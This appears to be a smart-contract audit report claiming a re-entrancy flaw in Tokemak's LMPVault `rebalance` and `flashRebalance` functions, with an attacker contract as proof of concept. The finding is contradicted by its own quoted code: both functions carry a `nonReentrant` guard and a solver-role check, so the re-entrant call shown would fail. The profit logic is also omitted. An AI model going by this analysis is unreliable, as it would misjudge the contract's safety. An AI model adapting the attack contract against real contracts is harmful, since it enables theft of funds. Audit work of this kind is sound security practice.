 Creamy Blue Wren

high

# Unhandled Exception in LMPVault's `rebalance` and `flashRebalance` leading to Re-entrancy Vulnerability

## Summary

The smart contract LMPVault.sol (Part 2nd) from Tokemak protocol has a potential vulnerability related to re-entrancy. In the `rebalance` and `flashRebalance` functions, the contract seems to allow external calls before updating the state variables `totalIdle` and `totalDebt`.

## Vulnerability Detail

The `rebalance` and `flashRebalance` functions involve interactions with external contracts (which could be malicious) before updating the `totalIdle` and `totalDebt` variables. This opens an actual risk for re-entrancy attacks.

In particular, the `rebalance` function makes an external call to `LMPDebt.rebalance` which can further interact with other external contracts. Similarly, `flashRebalance` function calls `LMPDebt.flashRebalance` which could allow the receiver to initiate a re-entrancy attack.

## Impact

If exploited, this vulnerability can result in loss of funds. An attacker could repeatedly call the `rebalance` or `flashRebalance` function while the state variables `totalIdle` and `totalDebt` are still unaltered.

## Code Snippet

```solidity
function rebalance(RebalanceParams memory params) public nonReentrant hasRole(Roles.SOLVER_ROLE) trackNavOps {
 (uint256 idle, uint256 debt) = LMPDebt.rebalance(
 destinationInfo[params.destinationOut],
 destinationInfo[params.destinationIn],
 params,
 _baseAsset,
 _shutdown,
 totalIdle,
 totalDebt
 );
 totalIdle = idle;
 totalDebt = debt;
 _collectFees(idle, debt, totalSupply());
}

function flashRebalance(
 IERC3156FlashBorrower receiver,
 RebalanceParams memory rebalanceParams,
 bytes calldata data
 ) public nonReentrant hasRole(Roles.SOLVER_ROLE) trackNavOps {
 (uint256 idle, uint256 debt) = LMPDebt.flashRebalance(
 destinationInfo[rebalanceParams.destinationOut],
 destinationInfo[rebalanceParams.destinationIn],
 receiver,
 rebalanceParams,
 LMPDebt.FlashRebalanceParams({
 totalIdle: totalIdle,
 totalDebt: totalDebt,
 baseAsset: _baseAsset,
 shutdown: _shutdown
 }),
 data
 );
 totalIdle = idle;
 totalDebt = debt;
 _collectFees(idle, debt, totalSupply());
}
```

https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L691-L728

## Tool used

Manual Review

## Recommendation

The team should use the Checks-Effects-Interactions pattern in these functions. The state variables should be updated before making the external calls to avoid reentrancy exploit scenarios.

## Proof Of Concept

Here's a further comprehensive example demonstrating how an attacker might exploit the vulnerability, including the logic to repay the flash loan (plus the fee) and a basic draft scheme to profit from the vulnerability. 

> **Note that this is only an illustration and will not work directly against a mainnet fork without concrete contract addresses and parameters.**


```javascript
contract MaliciousContract is IERC3156FlashBorrower {
    LMPVault public victimContract;
    IERC20 public token;
    RebalanceParams public maliciousParams;
    bytes public maliciousData;
    uint256 public amountOwed;

    constructor(LMPVault _victimContract, IERC20 _token, RebalanceParams memory _maliciousParams, bytes memory _maliciousData) {
        victimContract = _victimContract;
        token = _token;
        maliciousParams = _maliciousParams;
        maliciousData = _maliciousData;
    }

    function executeAttack() external {
        victimContract.flashRebalance(this, maliciousParams, maliciousData);
    }

    function onFlashLoan(address initiator, address token, uint256 amount, uint256 fee, bytes calldata data) external override returns(bytes32) {
        require(msg.sender == address(victimContract), "Only victim contract can initiate");

        amountOwed = amount + fee;
        
        // Re-enter the victim contract
        victimContract.flashRebalance(this, maliciousParams, maliciousData);
        
        // Profit logic goes here. This could involve a series of complex transactions
        // that eventually lead to the attacker profiting from the re-entrancy attack.
        // This logic has been omitted for simplicity.

        // Return the loan plus fee
        require(token.transfer(msg.sender, amountOwed), "Failed to repay loan");
        
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
```

In this contract, we first set up the victim contract, malicious parameters, and malicious data in the constructor. The `executeAttack` function is then called to initiate the flash loan from the victim contract. Since this contract implements `IERC3156FlashBorrower`, it is called back in the `onFlashLoan` function, where it calculates the amount owed (including the fee), calls `flashRebalance` again (initiating the re-entrancy attack), and then transfers the owed amount back to the lender (repaying the loan).

The actual logic of how the attacker would profit from the re-entrancy attack has been omitted for simplicity, but it would generally involve some form of arbitrage or manipulation of contract state to the attacker's benefit.